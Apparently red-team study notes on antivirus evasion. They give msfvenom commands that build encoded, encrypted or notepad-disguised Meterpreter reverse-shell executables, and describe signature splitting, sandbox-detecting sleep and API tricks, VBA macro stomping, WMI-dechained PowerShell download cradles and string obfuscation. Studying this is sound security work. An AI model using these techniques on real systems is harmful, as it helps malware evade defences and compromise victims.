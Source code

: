 ## Antivirus overview
  Most antivirus software runs on an endpoint machine. They offer real-time scan, in which the software monitors file operations and scans a file when it is downloaded or an attempt is made to execute it. In either case, if a malicious file is detected, it is either deleted or quarantined. Most detection is signature-based, rely on MD5 or SHA-1 hashes of malicious files or on unique byte sequences discovered in known malicious files. Some software also performs heuristics or behavioral analysis that simulates execution of a scanned file.
  
  When preparing for an engagement, we ideally want to mirror the target system in our local environment to verify the effectiveness of our tools. Since, red team is super cheap, we can't build a test environment for every engagement. Therefor, we could test payload against[AntiScanMe](https://antiscan.me/). They do Not distribute result.
  
## Baby Steps to bypass AV
We can use [FindAVSig](/04FunWithAntivirus/Find-AVSignature.ps1) powershell script to spilt our payload, and scan each section of our payload individully to identify which byte are flaged by AV. The below code spilt met.exe into 10000 bytes same files. We can use windows defender or any AV product to scan them individully, to see which section get flagged. Once you find the section, break it down again with smaller interval until you find the exact byte. Once you find the byte that get flagged, you can replace it using [bytechange script](/04FunWithAntivirus/bytechange.ps1) Hint,Sometimes, modifying the byte at the exact offset will not evade the signature, but modifying the byte before or after it will. And don't forget, you want to test the payload, sometime modification will mess up the payload..
```
PS C:\nonosquare> Import-Module .\Find-AVSignature.ps1
PS C:\nonosquare> Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\nonosquare\met.exe -OutPath C:\nonosquare\avtest1 -Verbose -Force
```
Let's say if the second 20000 byte get flagged, we can break down agin with small interval, and scan again.
```
Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\nonosquare\met.exe -OutPath C:\nonosquare\avtest1 -Verbose -Force
```

## play with Encoder or Encryptors
Encoders generally used character substitution to replace bad characters
```
kali@kali:~$ msfvenom --list encoders

Name Rank Description
---- ---- -----------
x64/xor normal XOR Encoder
x64/xor_context normal Hostname-based Context Keyed Payload
Encoder
x64/xor_dynamic normal Dynamic key XOR Encoder
x64/zutto_dekiru manual Zutto Dekiru
x86/add_sub manual Add/Sub Encoder
x86/alpha_mixed low Alpha2 Alphanumeric Mixedcase Encoder
```

Encoder Useage
```
kali@kali:~$ sudo msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=443 -e x86/shikata_ga_nai -f exe -o /var/www/html/met.exe
```

Enconder using Windows application as a template, copy C:\Windows\System32\notepad.exe to Kali and use it as a template
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o met64_notepad.exe
```

Encryption is design to replace to ineffectiveness of encoders for antivirus evasion
```
kali@kali:~$ msfvenom --list encrypt
================================================
Name
----
aes256
base64
rc4
xor
```

Let's encrypt with AES and see
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP PORT=443 --encrypt aes256 --encrypt-key fdgdgj93traskfaswergfsdfg33 -f exe -o met64_aes.exe
```

## Play with C#
Let's modify this [banana C# payload dropper](/02ClientSideWithWindowsScriptHost/Class1.cs) to make it stronger and better.
- 1. We can use [Caeasr Ciper code](/04FunWithAntivirus/Caesar.cs) to encrpt our payload, and add encypted payload to our beefy c# dropper, we add a decryption routine to get our old payload before load into memory. 
- 2.Let's mess with our code behavior a bit to bypass heuristic detection techniques. We can add a Sleep timer with Win32 Sleep API.If this section of code is being
simulated, the emulator will detect the Sleep call and fast-forward through the instruction. we can inject a two-second delay, and if the time checks indicate that two seconds have not passed during the instruction, we assume we are running in a simulator and can simply reutrn the code.
- 3.using non-emulated APIs,  antivirus emulators are cheap too, they often only simulate the execution of common exe or functions. We could bypass this by using a WinAPI that is not emulated. For example, [Win32 VirtualAllocExNuma](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma) a uncommon API, with Numa suffix, a system design to optimize memory usage on multi-processor servers. We can test this by reverse engineering the antivirus emulator, or test out various APIs against AV engine. let's use VirtualAllocExNuma instead of VirtualAllocEx to allocated memory, and we can put a check block, return code if the memeory is not allocated.
- 4.After adding those 3 ttps, this is our [beefy C# dropper](/04FunWithAntivirus/beefyC#dropper.cs)
- 5.TODO, reseach more uncommon API, lookinto Win32 FlsAlloc.(page 185)

## Play with VBA for a beefy Marco
We could use the sane ttp as mentioned with c# methos. 1. use a ciper to encrypt payload, 2. add delay function, 3.using non-emulated API in VBA script. The microsofy office files with .doc and .xls extension use a [Compound File Binary File Format](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cfb/53989ce4-7b05-4f8d-829b-d08d6148375b), which combine multiple files into a single disk file.

We can use [FlexHex editor](http://www.flexhex.com/download/) to inspect the .doc file fomrat to understand it better.
- 1.open a marco word doc with  Flex, File > Open > OLE Compound File
- 2.expend Macro and VBA folders on the lower-left Navigation window, content related to VBA macros are located in the Macros
- 3.The **Project** file contains project information. We can edit the Project file to hide macro from within the graphical office VBA editor. Select **“Module=NewMacros”**, which is what the GUI editor uses to link the displayed macros, replace this value with null.highlighting the ASCII string and navigating to **Edit > Insert Zero Block**
- 4.VBA PerfomanceCache. VBA use **P-code**, a compiled version of the VBA textual code for the specific version of Microsoft Office and VBA it was created on. When a Microsoft Word document is opened on a different computer thatuses the same version and edition of Microsoft Word, the cached pre-compiled P-code is executed, avoiding the translation of the textual VBA code by the VBA interpreter. This means that in some scenarios, the VBA source code can be removed, as long as our document is opened on a computer that uses the same version of Microsoft Word installed in the default location, the VBA source code is ignored and the P-code is executed instead. We can remove the VBA source by y locating the VBA source code inside NewMacros. mark the bytes that start with  **“Attribute VB_Name”** and select all the remaining bytes, and insert zero block.

## VBA powershell process dechaining with WMI and beefy level 2 obfuscation
The old [VBA script](/01ClientSideWithOffice/powershellmemorydownloadCradle.vbs) use a PowerShell download cradle that fetched and executed the full shellcode. There are two issues with this, 1.use of the Shell method and the clearly identifiable PowerShell download cradle, 2. the powershell process becomes a child process of Microsoft Word, which is suspicious behavior.

What we can do it to use Windows Management Instrumentation (WMI) framework to create a powershell process instead of having it as a child process of Microsoft Word. We will create a 64 bit powershell process now we can pass in the full download cradle into the powershell process. This is what we call [WMI dechaining ttps code](/04FunWithAntivirus/WMIDechainingDownloadCradle.vbs). The code includes comments to explain more in details. 

so far, we only work on the decahining the powerhshell process from word doc. It is time to think about this beefy level 1 baby obfuscation. The current VBA marco is highly signatures since we use powershell commands. Let's use [StrReverse](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/strreverse-function) and [Code Beautify](https://codebeautify.org/reverse-string) to reverse [our code, completed reverse code](/04FunWithAntivirus/ReverseWMIDechaining.vbs). Maybe this will break the Signature detection? good luck out there.

Wait? The code got flagged by av? Don't worry, let's work on this level 2 obfuscation. Let's conver the ASCII string to decimal representation and then performing a caesar ciper encryption on the result yeah?
- 1.Let's create a [Powershell encryption script](/04FunWithAntivirus/Encrypt.ps1) that perform the above ttp. We should get a encrypted hex string that we can later decrypt later in our script.
- 2.We need to modfiy our [vbs script](/04FunWithAntivirus/encyptedMarco.vbs) to include decrypt functions.
